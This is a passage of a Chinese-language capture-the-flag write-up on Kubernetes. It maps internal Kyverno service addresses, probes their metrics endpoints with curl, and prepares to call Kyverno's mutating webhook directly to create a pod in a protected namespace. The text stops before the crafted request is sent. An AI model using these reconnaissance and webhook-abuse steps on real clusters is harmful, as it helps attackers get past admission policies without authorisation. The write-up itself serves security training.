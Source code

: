 ```bash
10.100.86.210 -> kyverno-cleanup-controller.kyverno.svc.cluster.local.
10.100.126.98 -> kyverno-svc-metrics.kyverno.svc.cluster.local.
10.100.158.213 -> kyverno-reports-controller-metrics.kyverno.svc.cluster.local.
10.100.171.174 -> kyverno-background-controller-metrics.kyverno.svc.cluster.local.
10.100.217.223 -> kyverno-cleanup-controller-metrics.kyverno.svc.cluster.local.
10.100.232.19 -> kyverno-svc.kyverno.svc.cluster.local.
```

看到metric，搜了一下端口为8000

```bash
curl kyverno-svc-metrics.kyverno.svc.cluster.local.:8000
curl kyverno-reports-controller-metrics.kyverno.svc.cluster.local.:8000
curl kyverno-cleanup-controller-metrics.kyverno.svc.cluster.local.:8000
```

请求可以看到一些请求路由，搜一下，路由写在 kyverno/pkg/config/config.go 里

```go
const (
....
	// PolicyMutatingWebhookServicePath is the path for policy mutation webhook(used to default)
	PolicyMutatingWebhookServicePath = "/policymutate"
	// MutatingWebhookServicePath is the path for mutation webhook
	MutatingWebhookServicePath = "/mutate"
....
)
```

有两个接口比较引人注目，可以触发 **Mutating Webhook**，不过第1个按字面意思应该是更改policy的，这里选用第2个，该路由对应的服务为 kyverno-svc.kyverno.svc.cluster.local. ，监听443端口

接下来就是构造请求参数了，题目描述k8s文档里有一个例子

```yaml
apiVersion: admission.k8s.io/v1
kind: AdmissionReview
request:
  # 唯一标识此准入回调的随机 uid
  uid: 705ab4f5-6393-11e8-b7cc-42010a800002
....
```

不过他不是创建Pod的，可以自己写一个在sensitive-ns命名空间创建Pod的yaml，

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: example-pod
  namespace: sensitive-ns
spec:
  containers:
    - name: example-container
      image: nginx
```
